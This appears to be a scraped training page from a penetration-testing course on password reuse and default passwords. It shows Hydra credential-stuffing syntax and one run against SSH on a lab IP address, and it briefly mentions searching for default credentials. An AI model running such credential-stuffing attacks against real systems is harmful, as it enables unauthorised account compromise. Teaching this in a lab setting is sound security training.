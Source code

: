 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/147/section/1328
// Platform Version: V1
// Module ID: 147
// Module Name: Password Attacks
// Module Difficulty: Medium
// Section ID: 1328
// Section Title: Password Reuse / Default Passwords
// Page Title: Hack The Box - Academy
// Page Number: 06
-->

# Password Reuse / Default Passwords

**Module Name:** Password Attacks **Page Number:** 06

#### 

#### PASSWORD ATTACKS

# Password Reuse / Default Passwords

## Credential Stuffing

#### Credential Stuffing - Hydra Syntax

``` shell-session
[!bash!]$ hydra -C <user_pass.list> <protocol>://<IP>
```

#### Credential Stuffing - Hydra

``` shell-session
[!bash!]$ hydra -C user_pass.list ssh://10.129.42.197

...
```

#### Google Search - Default Credentials

![https://academy.hackthebox.com/storage/modules/147/Google-default-creds.png](https://academy.hackthebox.com/storage/modules/147/Google-default-creds.png)

# 

# 

#### Questions

####